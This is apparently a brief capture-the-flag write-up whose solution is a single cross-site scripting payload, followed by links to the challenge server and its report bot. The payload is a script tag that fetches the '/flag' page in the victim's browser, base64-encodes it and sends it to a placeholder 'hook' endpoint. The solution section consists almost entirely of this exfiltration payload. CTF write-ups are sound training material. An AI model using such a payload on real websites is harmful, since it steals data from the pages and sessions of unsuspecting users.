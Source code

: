 ## Solution  

```js
<script>fetch('/flag').then(e=>e.text()).then(e=>{fetch('hook/?c='+btoa(e))})</script>
```

## Challenge  

- [chall](http://172.206.89.197:9000/ )
- [bot](http://172.206.89.197:9000/report )



